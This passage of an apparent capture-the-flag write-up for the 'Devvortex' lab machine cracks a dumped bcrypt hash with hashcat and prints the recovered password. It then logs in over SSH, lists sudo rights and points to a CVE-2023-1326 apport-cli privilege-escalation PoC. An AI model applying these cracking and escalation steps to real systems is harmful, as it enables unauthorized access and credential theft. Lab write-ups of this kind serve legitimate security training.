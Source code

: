 ```bash
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL  
```


Nice! we got some password hashes now. We can then copy and past these hashes to a file on our host machine and start to try and crack the hashes using `hashcat`.

Firstly, we need to find the correct mode to use for hashcat using `hashid`:
```bash
hashid '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12' -m
Analyzing '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```

Nice so it is a `bcrypt` hash... Moving on to hashcat:
```bash
hashcat -m 3200 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```
- It takes a bit but eventually we get a hit on the password:
```bash
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```

Now SSH'ing into the host:
```bash
ssh logan@devvortex.htb  
The authenticity of host 'devvortex.htb (10.10.11.242)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:15: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'devvortex.htb' (ED25519) to the list of known hosts.
logan@devvortex.htb's password:
```

Now, after grabbing the flag `user.txt` we can move on to escalating privileges to the root user.
```bash
sudo -l
[sudo] password for logan:
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

From this information, we then google: `"apport-cli sudo privilege escalation"`.
We then find a PoC for [CVE-2023-1326](https://github.com/diego-tella/CVE-2023-1326-PoC).

This privilege escalation attack was found in apport-cli 2.26.0 and earlier.
We can check if this version of `apport-cli` is vulnerable using the command:
`sudo /usr/bin/apport-cli -v`
```
2.20.11
```
